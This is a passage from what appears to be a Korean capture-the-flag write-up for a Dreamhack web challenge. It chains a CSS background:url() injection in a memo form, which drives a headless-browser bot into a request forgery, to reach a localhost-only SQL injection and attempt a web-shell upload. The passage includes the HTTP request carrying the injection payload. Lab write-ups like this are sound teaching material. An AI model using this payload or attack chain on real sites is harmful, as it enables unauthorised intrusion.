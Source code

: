 ```php
}
# /var/www/html/check.php
?>
```
`SQL Injection`은 check.php에서 $id 파라미터를 확인하지 않기 때문에 발생한다. 하지만 `SQL Injection`은 로컬에서 요청을 보낼 때만 발생한다. 결국 `SSRF` 취약점을 찾아야 한다.


```python
from selenium import webdriver
import time
import sys, os

memoid = sys.argv[1]

driver = webdriver.PhantomJS(service_log_path='/dev/null')
driver.implicitly_wait(10)
driver.get("http://localhost/read.php?id=" + memoid)
driver.get("http://localhost/check.php?id=" + memoid)
```
```php
<?php
$id = $_GET['id'];
if(ctype_digit($id)){
    exec("python3 /bot.py ".$id);
}
else{
    die("no hack");
}
die('<script> location.href="/" </script>');
?>
```
submit.php에서 bot.py를 호출하는데, 이것은 `ctype_digit()` 함수를 이용해서 $id 파라미터를 확인하기 때문에 악용할 수 없다. 하지만 우리는 CSS의 `background: url()`을 이용해서 `SSRF` 공격을 할 수 있다. 그래서 글 작성 기능을 이용해 color의 값으로 `SSRF` PoC를 박기로 했다.

![](https://user-images.githubusercontent.com/49112423/158553191-baf50b5b-22c5-4779-8f85-fcdd48168b82.png)
```http
POST /?path=write HTTP/1.1
Host: host1.dreamhack.games:9111
Content-Length: 95
Content-Type: application/x-www-form-urlencoded
Connection: close

memoTitle=asdf&memoColor=aqua}.content{background:%20url('https://google.com')&memoContent=adsf
```
나는 위와 같이 `SSRF` PoC를 삽입하고, 접속을 하니 `/check.php`로 요청이 정상적으로 가는 것을 볼 수 있었다. 여기서 만약 글을 신고한다면 5초 동안 슬립이 발생하는 것을 볼 수 있으며 사진은 생략했다.

```conf
[mysqld]
pid-file        = /var/run/mysqld/mysqld.pid
socket          = /var/run/mysqld/mysqld.sock
datadir         = /var/lib/mysql
secure-file-priv= /tmp/
default_authentication_plugin=mysql_native_password

# Custom config should go here
!includedir /etc/mysql/conf.d/
```
이제 `SQL Injection`을 이용해서 웹쉘을 업로드 해야 한다. 그래서 나는 `/var/www/html/cmd.php`로 웹쉘 업로드를 시도했지만 실패했다. 이유를 찾기 위해서 코드를 보니 `secure-file-priv`의 값이 `/tmp`로 되어 있었기 때문이다. 
